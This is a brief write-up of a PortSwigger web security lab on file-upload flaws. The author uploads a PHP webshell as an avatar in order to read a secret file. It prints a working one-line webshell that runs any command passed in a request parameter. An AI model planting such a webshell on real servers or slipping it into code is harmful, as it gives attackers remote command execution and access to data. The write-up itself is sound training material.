 # Portswigger Labs

## Lab 1: RCE via webshell

To solve this lab, upload a basic PHP webshell and read `/home/carlos/secret`. 

When logging into the given account, I saw that I was able to upload Avatars to the website:

![](../../.gitbook/assets/portswigger-fileupload-writeup-image.png)

The website wants me to upload a PHP web shell, like this:

```php
<?php system($_REQUEST['cmd']); ?>
```

I tried to upload a `cmd.php` file, and it worked:

![](../../.gitbook/assets/portswigger-fileupload-writeup-image-1.png)
